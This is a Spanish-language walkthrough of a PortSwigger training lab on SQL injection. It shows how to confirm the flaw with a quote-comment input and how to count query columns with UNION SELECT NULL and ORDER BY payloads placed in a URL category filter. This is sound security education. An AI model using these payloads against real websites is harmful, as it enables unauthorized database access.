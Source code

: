 ```yaml
---
title: "03 SQLi UNION attack determining the number of columns returned by the query"
collection: publications
category: portswigger
permalink: /publications/03_SQL injection UNION attack, determining the number of columns returned by the query
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL en el campo de categoría del filtro de productos. Esta vulnerabilidad puede explotarse mediante un ataque UNION para recuperar datos de otras tablas. Para resolver el laboratorio, realizamos un ataque de inyección SQL que determina el número de columnas que devuelve la consulta. Este es el primer paso de un ataque UNION de inyección SQL. Utilizaremos esta técnica en laboratorios posteriores para construir el ataque completo.'
date: 2024-12-01
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'SQLi UNION attack determining the number of columns returned by the query'
---
```


![logo]({{site.url}}/images/SQLi/sqli-3/logo.png)

Lab-Link: <https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns>  
Dificultad: APPRENTICE  

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-3/descripcion.png)

## Objetivo del laboratorio

Determinar el número de columnas devueltas por la consulta realizando un ataque de inyección SQL UNION que devuelva una fila adicional que contenga valores nulos.

## Query

![categorias]({{site.url}}/images/SQLi/sqli-3/categorias y url.png)

La consulta utilizada en el laboratorio tendrá un aspecto similar a

```sql
SELECT * FROM tabla WHERE category = '<CATEGORY>'
```

Comprobamos que es vulnerable a SQLi insertando en la url el parametro:

```sql
' --
```

![Comprobar]({{site.url}}/images/SQLi/sqli-3/comprobar.png)

## Determinar el numero de columnas retornadas por la consulta

1) El payload se veria asi con NULL:

```javascript
/filter?category=Gifts' UNION SELECT NULL--
/filter?category=Gifts' UNION SELECT NULL, NULL--
/filter?category=Gifts' UNION SELECT NULL, NULL, NULL--
```

Vamos insertando `NULL` con `UNION SELECT` para ver cuantas columnas estan disponibles etc...

2) Probamos con `ORDER BY` para ver que cantidad son vulnerables, vamos incrementando el numero

```javascript
/filter?category=Gifts' ORDER BY 1--
/filter?category=Gifts' ORDER BY 2--
/filter?category=Gifts' ORDER BY 3--
```

## Forma determinar con NULL

```javascript
filter?category=Gifts' UNION SELECT NULL,NULL,NULL--
```
La web para a realizar el `URL ENCONDE` y quedaria algo asi:

![url enconde]({{site.url}}/images/SQLi/sqli-3/NULL.png)

En BurpSuite se veria de la siguiente forma

![BurpSuite]({{site.url}}/images/SQLi/sqli-3/burp.png)

## Forma determinar con ORDER BY

```javascript
filter?category=Gifts' ORDER BY 3--
```
Sin Url Encode:

![url]({{site.url}}/images/SQLi/sqli-3/url.png)

El navegador hace `URL ENCONDE` y quedaria algo asi:

![url_enconde]({{site.url}}/images/SQLi/sqli-3/url encode.png)

Aprobado
![Aprobado]({{site.url}}/images/SQLi/sqli-3/aprobado.png)